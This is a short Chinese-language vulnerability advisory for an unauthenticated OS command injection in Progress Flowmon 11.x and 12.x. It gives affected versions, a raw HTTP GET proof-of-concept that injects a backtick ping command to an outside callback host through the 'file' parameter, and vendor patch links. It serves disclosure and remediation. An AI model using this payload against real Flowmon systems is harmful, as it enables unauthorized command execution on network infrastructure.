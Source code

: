 **漏洞介绍**



Progress Flowmon是Progress公司的一个实时网络流量监控工具。

Progress Flowmon 11.1.14之前的11.x版本和12.3.5之前的12.x版本存在安全漏洞，该漏洞源于存在操作系统命令注入漏洞，未经身份验证的用户可以通过管理界面访问系统，从而执行任意系统命令。

**影响版本**

Progress Flowmon 11.1.14之前的11.x版本和12.3.5之前的12.x版本

**漏洞复现**

1.访问漏洞环境

 **POC （GET）**

```yaml
GET /service.pdfs/confluence?lang=en&file=`ping%20wpzmtaazjp.dgrh3.cn` HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/15.3 Safari/605.1.15
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

**修复建议**



目前厂商已发布升级补丁以修复漏洞，补丁获取链接：



```
https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability
https://support.kemptechnologies.com/hc/en-us/articles/19957432995213-Download-F
```